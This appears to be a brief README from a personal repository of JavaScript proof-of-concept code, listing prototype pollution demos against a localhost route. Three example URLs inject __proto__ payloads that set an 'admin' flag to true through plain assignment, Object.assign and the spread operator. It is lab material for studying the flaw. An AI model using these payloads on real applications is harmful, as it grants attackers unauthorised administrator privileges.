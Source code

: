 # Javascript code

### All the POCs and garbage code goes here.

* Prototype Pollution - `routes/prototypepollution`

    Normal assignment - `http://localhost:3000/proto?attr=__proto__&value={"admin":"true"}`

    Object.assign - `http://localhost:3000/proto/2?value={"__proto__":{"admin":"true"}}`

    Spread operator - `http://localhost:3000/proto/3?value={"__proto__":{"admin":"true"}}`